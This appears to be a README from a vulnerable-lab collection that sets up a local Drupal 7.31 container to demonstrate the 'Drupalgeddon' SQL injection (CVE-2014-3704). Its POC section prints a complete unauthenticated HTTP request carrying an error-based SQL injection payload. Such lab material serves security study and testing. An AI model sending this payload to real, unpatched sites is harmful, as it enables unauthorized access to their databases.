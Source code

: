 # Drupal < 7.32 "Drupalgeddon" SQL Injection Vulnerability (CVE-2014-3704)

[中文版本(Chinese version)](README.zh-cn.md)

Drupal is a free and open-source web content management framework written in PHP and distributed under the GNU General Public License.

The expandArguments function in the database abstraction API in Drupal core 7.x before 7.32 does not properly construct prepared statements, which allows remote attackers to conduct SQL injection attacks via an array containing crafted keys.

## Vulnerable Environment

Execute the following command to start a Drupal 7.31.

```
docker-compose up -d
```

After the server is started, browse ``http://your-ip:8080`` to see the Drupal installation wizard, and use the default configuration to install it.

Note that the Mysql database name is ``drupal``, the database username and password is ``root``, and the address is ``mysql``:

![](1.png)

After the installation is complete, browse the home page.

![](2.png)

## POC

The SQL injection does not require authentication and can execute malicious SQL statements by sending the following request.

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

As can be seen, the SQL statement reports an error message with user data.

![](3.png)